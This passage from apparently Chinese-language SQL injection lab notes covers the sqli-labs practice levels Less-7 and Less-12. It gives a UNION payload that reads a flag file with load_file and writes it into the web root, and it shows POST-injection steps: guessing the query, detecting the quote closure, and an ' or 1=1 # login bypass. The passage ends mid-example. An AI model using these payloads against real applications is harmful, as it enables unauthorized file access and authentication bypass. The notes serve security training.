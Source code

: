 ```

![image-20220114211208888](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114211208888.png)

![image-20220114211227208](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114211227208.png)



#### 使用load_file:

```
?id=-2')) union select 1,load_file('c:/flag.txt'),3 into outfile "c:/phpstudy_pro/WWW/Less-7/zj1.t" --+
```

![image-20220114211652598](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114211652598.png)









## 05 post注入（原理、实战、方法）

### 实战-靶场less12

post注入

使用神器burpsuite



猜测源码：

```
$u = $_POST['uname'];
$p = $_POST['passwd'];

select username,password from table1 where username=("$u") and password=("$p") limit 0,1;
```

因此可以通过让它报错猜测到闭合方式：

```
select username,password from table1 where username=("\") and password=("") limit 0,1;

判断为单引号闭合
\' and password='' LIMIT 0,1
```

### 第一种方式：

使用万能密码：

```
select username,password from table1 where username=' ' or 1=1 limit 1,1 #  ' and password='$p' limit 0,1;
